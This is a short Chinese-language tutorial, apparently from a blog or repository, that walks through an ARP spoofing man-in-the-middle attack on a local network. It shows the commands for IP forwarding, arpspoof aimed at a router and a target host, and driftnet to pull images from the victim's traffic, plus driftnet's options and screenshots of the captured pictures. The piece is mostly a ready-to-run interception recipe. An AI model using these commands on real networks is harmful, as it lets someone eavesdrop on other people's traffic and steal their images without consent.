 ### 其实这个也是非常简单，只有三句命令就可以实现。没啥技术难度，不过只能在局域网内实现。

##### 1、更改转发模式

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

<img src="https://tva1.sinaimg.cn/large/007S8ZIlly1gf2q4h2n18j30vv0u07wh.jpg" alt="image-20200523215235878" style="zoom:67%;" />

##### 2、arp攻击             

```
 arpspoof -i eth0 -t 192.168.1.1  192.168.1.100
 
#arpspoof -i eth0 -t [路由器ip] [目标主机ip]
```

> `192.168.123.1`是我路由器地址，`192.168.123.116`是我笔记本的地址

<img src="https://tva1.sinaimg.cn/large/007S8ZIlly1gf2pnalgspj30vq0u01ky.jpg" alt="image-20200523213603947" style="zoom:50%;" />

##### 3、数据还原分析      

```
# driftnet -i eth0
//eth0是网卡
```

<img src="https://tva1.sinaimg.cn/large/007S8ZIlly1gf2proex9tj30u00vy7wh.jpg" alt="image-20200523214018000" style="zoom:50%;" />

###### 参数命令

> ` -b ` ：捕获到新的图片时发出嘟嘟声
>
> ` -i interface` ：选择监听接口
>
> `-f file `：读取一个指定pcap数据包中的图片
>
> ` -p` ：不让所监听的接口使用混杂模式
>
> ` -a` ：后台模式：将捕获的图片保存到目录中（不会显示在屏幕上）
>
> ` -m number` ：指定保存图片数的数目
>
> `-d directory` ：指定保存图片的路径
>
> `-x prefix `：指定保存图片的前缀名

### 结果：

<img src="https://tva1.sinaimg.cn/large/007S8ZIlly1gf2pzieux9j31400u0qv8.jpg" alt="41590241281_.pic_hd" style="zoom:50%;" />

> 左边电脑是被攻击者，右边窗口中的图片就是截取被攻击者网络数据包中抓取的图片

<img src="https://tva1.sinaimg.cn/large/007S8ZIlly1gf2q2mw4k2j30u00v5qv5.jpg" alt="image-20200523215050019" style="zoom:67%;" />

> 截取的所有照片都会在文件夹中显示